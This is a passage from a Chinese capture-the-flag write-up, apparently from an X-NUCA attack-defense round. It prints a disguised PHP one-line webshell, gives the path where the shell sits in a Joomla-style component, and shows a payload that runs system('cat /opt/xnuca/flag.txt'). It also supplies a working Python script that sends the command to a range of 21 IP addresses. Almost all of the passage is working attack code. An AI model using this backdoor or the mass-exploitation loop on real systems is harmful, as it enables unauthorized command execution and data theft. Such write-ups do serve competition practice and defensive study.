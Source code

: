 #### <a class="reference-link" name="1.%E5%AD%98%E5%9C%A8%E5%8F%98%E5%BD%A2%E7%9A%84%E9%A2%84%E7%95%99%E5%90%8E%E9%97%A8"></a>1.存在变形的预留后门

&lt;?php ($**=@$_GET[2]).@$**($_POST[1])?&gt;<br>
路径在/components/com_facegallery/controllers/update.php<br>
利用payload<br>
?2=assert post system(‘cat /opt/xnuca/flag.txt’);<br>
exp [代码]

```
import requests
shell='/components/com_facegallery/controllers/update.php?2=assert'
for i in range(1,22):
    try:
        ip='http://192.121.'+str(i)+'.34'
        full_url=ip+shell
        print ip
        post_data=`{`"1":"system('cat /opt/xnuca/flag.txt');"`}`
        res=requests.post(url=full_url,data=post_data)
        # print res.status_code
        print res.text
    except Exception,e:
        pass
```

### <a class="reference-link" name="%E5%B0%8F%E5%BC%9F%E8%83%BD%E5%8A%9B%E6%9C%89%E9%99%90%EF%BC%8C%E6%AC%A2%E8%BF%8E%E5%90%84%E4%BD%8D%E5%A4%A7%E5%B8%88%E5%82%85%E4%BB%AC%E8%A1%A5%E5%85%85%E3%80%82"></a>小弟能力有限，欢迎各位大师傅们补充。
